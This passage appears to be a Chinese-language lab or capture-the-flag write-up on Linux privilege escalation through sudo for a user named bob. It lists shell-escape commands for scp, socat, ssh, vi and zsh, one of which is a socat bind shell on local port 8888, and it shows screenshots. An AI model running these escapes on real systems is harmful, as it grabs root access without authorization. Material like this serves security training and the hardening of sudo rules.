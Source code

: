 <img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202402250151420.png" alt="image-20240224231201762" style="zoom:50%;" />

### Scp(bob)

> scp 是 secure copy 的缩写, scp 是 linux 系统下基于 ssh 登陆进行安全的远程文件拷贝命令。
>
> scp 是加密的，rcp 是不加密的，scp 是 rcp 的加强版。

```bash
TF=$(mktemp)
echo 'sh 0<&2 1>&2' > $TF
chmod +x "$TF"
sudo scp -S $TF x y:
```

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202402250151421.png" alt="image-20240224231450895" style="zoom:50%;" />

### socat(bob)

`socat`是一个多功能的网络工具，名字来由是`Socket CAT`，可以看作是`netcat`的加强版。

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202402250151423.png" alt="image-20240224231726189" style="zoom: 50%;" />

也可以：

```shell
sudo socat TCP-LISTEN:8888,reuseaddr,fork EXEC:/bin/sh,pty,stderr,setsid,sigint,sane
socat FILE:`tty`,raw,echo=0 TCP:127.0.0.1:8888
```

![image-20240224233647333](https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202402250151424.png)

### ssh(bob)

```shell
sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x
```

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202402250151425.png" alt="image-20240224233931083" style="zoom:50%;" />

### vi(bob)

```bash
sudo vi -c ':!/bin/sh' /dev/null
```

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202402250151426.png" alt="image-20240224234118791" style="zoom:50%;" />

### zsh(bob)

```bash
sudo zsh
```

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202402250151427.png" alt="image-20240224234210530" style="zoom:50%;" />

